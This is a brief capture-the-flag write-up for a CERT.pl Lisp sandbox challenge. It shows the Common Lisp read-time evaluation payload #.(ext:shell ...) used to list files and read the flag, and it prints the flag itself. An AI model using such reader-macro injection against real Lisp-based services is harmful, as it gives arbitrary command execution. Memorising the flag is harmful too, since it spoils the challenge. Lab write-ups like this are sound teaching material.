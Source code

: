 # [misc/pwn - Baby thandbox](https://hack.cert.pl/challenge/baby-thandbox)

I noticed that it's possible to inject Lisp code using syntax `#.(code)` so the solution was pretty straight forward, using shell commands:
```lisp
> #.(ext:shell "ls")
bin
etc
flag_144de66289ad4b9ffa8578cb862c7db7.txt
lib
lib64
root
sandbox
sbin
usr
NIL
```
```lisp
> #.(ext:shell "cat flag_144de66289ad4b9ffa8578cb862c7db7.txt")
ecsc23{LISP_is_a_speech_defect_in_which_s_is_pronounced_like_th_in_thick}NIL
```

### Flag
```
ecsc23{LISP_is_a_speech_defect_in_which_s_is_pronounced_like_th_in_thick}
```
